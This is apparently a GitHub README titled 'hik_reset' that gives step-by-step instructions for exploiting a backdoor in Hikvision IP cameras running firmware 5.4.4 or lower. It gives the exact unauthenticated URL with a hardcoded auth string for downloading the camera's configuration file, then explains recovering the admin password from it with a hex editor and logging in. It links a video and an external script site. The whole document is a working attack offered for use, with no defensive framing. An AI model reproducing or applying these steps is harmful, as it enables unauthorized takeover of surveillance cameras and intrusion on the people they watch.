 # hik_reset
Hikvision backdoor IP camera

Requirements: Ubuntu 18, php 7, Apache, OpenJDK 8

<p><b>You can view the password from the camera without even resetting its settings
<p>List of requirements</b>

<p>1. The firmware version on the camera must be 5.4.4 or lower. Use SADP Tool to check
<p>2. Your PC or laptop must be on the same local network as the camera
<h2>Instructions</h2>

<p>1. Download and install the SADP Tool program on your PC or laptop
<br><a href="https://www.hikvision.com/en/support/tools/destop-tools/sadp-for-windows/#download-agreement" target="_blank" ><b>Download link</b></a>

<p>2. Go to the following IP address in your browser
<br>http://<i><b>camera_ip</i></b>/System/configurationFile?auth=YWRtaW46MTEK
<br>Where, camera_ip - IP address of the camera. You can find out IP using the <a href="https://www.hikvision.com/en/support/tools/destop-tools/sadp-for-windows/#download-agreement" target="_blank" ><b>SADP program</b></a>



<p>3. The file that you downloaded from the server (the file will have the name 6bf2bc3e2e31b280d83051dfa7444e22plaintextOutput, the name changes every time) should be uploaded to the site with the online HEX editor
<br><a href="https://hexed.it/" target="_blank" ><b>https://hexed.it</b></a>
<p>4.Use the camera web interface and Internet Explorer to enter the camera

Manual
https://www.youtube.com/embed/4PJXuYcMjMY" frameborder

<b><center>An example of the script
http://hik.cctv-world.space/en.html
